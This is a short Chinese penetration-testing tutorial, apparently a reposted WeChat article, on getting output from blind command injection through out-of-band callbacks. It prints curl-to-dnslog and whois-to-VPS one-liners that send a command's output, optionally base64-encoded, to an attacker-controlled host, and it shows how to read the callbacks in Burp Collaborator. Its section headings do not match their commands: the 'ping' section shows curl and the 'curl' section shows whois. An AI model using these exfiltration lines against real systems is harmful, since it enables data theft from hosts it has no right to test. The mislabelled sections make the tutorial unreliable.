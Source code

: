 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/a8Hffe7pcNGM93EG7E9R9g)

公众号

### 前言  

在渗透测试的很多时候，我们可能都得不到数据的回显。由于得不到数据的回显，我们就无法进一步判断我们渗透测试的结果。所以本文告诉大家，在没有回显的时候，我们又该如何测试。

### 1. 利用 ping

```
curl dnslog/`命令|base64|tr '\n' '-'`
curl dnslog/`命令|tr '\n' '-'`
```

有很多免费的 dnslog 使用，例如 BurpSuite 自带的模块——Burp Collaborator client，当然社区版没有这个功能，专业版的 BurpSuite 才具有。

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0F48aaTP5HSVW9b6fuibbdQgUwib76NDSpPP5FCEIAFUfUMwenRLYd62g/640?wx_fmt=other)

                                        Burp Collaborator client

还有免费的 ceye.io、吐司等，这里不做过多的介绍，以 Burp Collaborator client 为例。  
假如我们需要执行一个 uname，我们先点击 Copy to clipboard，接着组装我们的语句即可，最后执行它

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0UcePWDm0ObLvU2KOzfbFDGaqzv9jJ45GSrPfNxBFhF95xEHTINTREw/640?wx_fmt=other)

Copy to clipboard

待它执行几秒钟，我们的 Burp Collaborator client 就会有回应  

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0xUdoHTVDX2DdQmICd3ib4YkNibsWic8MGmg5QCRNm3IaDj6aBk7oic7fcw/640?wx_fmt=other)

ping 执行

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0Pv11BtDBW34LT9ib45FI2qdROHe56cnWDz2kaV1MgicJFfDKoxAhqI5Q/640?wx_fmt=other)

回应

我们直接在本机执行 uname 验证一下

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0FJApNWbDbjaoibScyjfzWmhnuTc88tWhE0GkDusJoD1TEH6GWL72ajw/640?wx_fmt=other)

uname

### **2. 利用 curl**

Win10 和 WinServer2016（或更高版本）均已默认自带 curl

```
whois -h vps‘ip -p port `命令`
whois -h vps‘ip -p port `命令 |base64`
```

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0OzG3MX3AgyHWtMndaDQHJJQa4a4hTbDRuhQVmZsicehbYMicBcuNvEZw/640?wx_fmt=other)  

执行
